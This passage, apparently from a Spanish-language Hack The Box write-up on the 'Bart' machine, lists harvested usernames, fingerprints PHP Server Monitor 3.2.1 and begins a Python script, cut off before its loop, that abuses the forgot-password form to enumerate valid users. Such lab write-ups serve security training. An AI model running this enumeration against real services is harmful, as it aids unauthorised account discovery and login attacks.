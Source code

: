 ### Enumeración de usuarios<a name="id2"></a>

Hay varios div que contienen información sobre usuarios, me he guardado los nombres, los apellidos y la primera parte del correo en un archivo.

```bash
samantha
brown
s.brown
daniel 
simmons
d.simmons
robert 
hilton
r.hilton
harvey 
potter
h.potter
jane 
doe
```

Después de enumerar directorios y no econtrar nada... Pasé al subdominio "monitor".  El subdominio tenía alojado un PHP Server Monitor.

> **PHP Server Monitor** es una herramienta de monitoreo de frontend web de código abierto escrita en PHP, que puede verificar si sus servidores (IP, dominios) o servicios están en funcionamiento y puede enviarle notificaciones a través de servicios de correo o SMS. si ocurrió un problema en un servicio o puerto monitoreado.

En concreto estaba corriendo la versión 3.2.1

```bash
❯ curl -s "http://monitor.bart.htb/" | grep "PHP Server" | html2text
Powered by PHP_Server_Monitor_v3.2.1.
```

La web nos permite iniciar sesión y recurperar nuestra contraseña... No tenemos contraseñas y tampoco sabemos si nuestros usuarios son validos. Podemos aprovecharnos de la función de "Forgot Password" para enumerar usuarios. Para ello hicé un pequeño script en python.

```python

import signal,requests,sys,time
from pwn import *
from bs4 import BeautifulSoup

proxies={"http":"http://127.0.0.1:8080"}
url="http://monitor.bart.htb/index.php"
forgot="http://monitor.bart.htb/?action=forgot"

def handler(sig,frame):
	print ("\n[!] Saliendo...")
	sys.exit(1)

signal.signal(signal.SIGINT,handler)

def bruteforce():
	s = requests.Session()
	r=s.get(url)
	response=r.text
	
	soup = BeautifulSoup(response, "html.parser")
	csrf=soup.find("input",{"name":"csrf"})['value']
	
	p1=log.progress('Enumerando usuarios: ')
	
```
